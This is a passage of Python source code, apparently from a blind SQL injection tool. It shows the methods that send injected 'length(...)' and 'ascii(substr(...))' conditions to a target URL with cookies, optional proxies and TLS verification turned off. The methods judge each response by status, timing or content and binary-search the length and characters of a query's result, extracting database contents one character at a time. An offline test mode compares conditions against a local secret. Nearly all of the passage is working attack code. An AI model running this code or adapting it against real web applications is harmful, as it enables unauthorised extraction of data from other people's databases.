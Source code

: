 ```python
        return f"{self.base}{self.template.format(condition=condition)}"

    def _eval_offline(self, condition: str) -> bool:
        s = self.test_secret or ""
        m = re.fullmatch(r"\s*length\s*\(\s*\(.*?\)\s*\)\s*([><=])\s*(\d+)\s*", condition, re.I)
        if m:
            op, n = m.group(1), int(m.group(2))
            L = len(s)
            return (L>n) if op==">" else (L<n) if op=="<" else (L==n)
        m = re.fullmatch(r"\s*ascii\s*\(\s*substr\s*\(\s*\(.*?\)\s*,\s*(\d+)\s*,\s*1\s*\)\s*\)\s*([><=])\s*(\d+)\s*", condition, re.I)
        if m:
            pos, op, n = int(m.group(1)), m.group(2), int(m.group(3))
            c = ord(s[pos-1]) if 1<=pos<=len(s) else -1
            return (c>n) if op==">" else (c<n) if op=="<" else (c==n)
        m = re.fullmatch(r"\s*ascii\s*\(\s*substr\s*\(\s*\(.*?\)\s*,\s*(\d+)\s*,\s*1\s*\)\s*\)\s*=\s*(\d+)\s*", condition, re.I)
        if m:
            pos, n = int(m.group(1)), int(m.group(2))
            c = ord(s[pos-1]) if 1<=pos<=len(s) else -1
            return c == n
        return False

    def check(self, condition: str) -> bool:
        if self.test_secret is not None:
            return self._eval_offline(condition)
        data = {self.param: self._value(condition)}
        proxies = {"http": self.proxy, "https": self.proxy} if self.proxy else None
        t0 = time.time()
        if self.method == "POST":
            r = requests.post(self.url, data=data, headers=self.headers, cookies=self.cookies,
                              timeout=self.timeout, verify=False, proxies=proxies)
        else:
            r = requests.get(self.url, params=data, headers=self.headers, cookies=self.cookies,
                             timeout=self.timeout, verify=False, proxies=proxies)
        elapsed = time.time() - t0
        body = r.text
        return self.ind.decide(r.status_code, elapsed, body, len(r.content))

    def find_length(self, query: str, maxlen: int) -> int:
        lo, hi, ans = 1, maxlen, 0
        while lo <= hi:
            mid = (lo + hi) // 2
            if self.check(f"length(({query}))>{mid}"):
                ans = max(ans, mid+1)
                lo = mid + 1
            else:
                hi = mid - 1
        return ans if ans else hi

    def extract_char(self, query: str, pos: int) -> str:
        lo, hi = ASCII_MIN, ASCII_MAX
        while lo <= hi:
            mid = (lo + hi)//2
            if self.check(f"ascii(substr(({query}),{pos},1))>{mid}"):
                lo = mid + 1
            else:
                hi = mid - 1
        cand = hi + 1
        if cand < ASCII_MIN or cand > ASCII_MAX:
            return ""
        if self.check(f"ascii(substr(({query}),{pos},1))={cand}"):
            return chr(cand)
```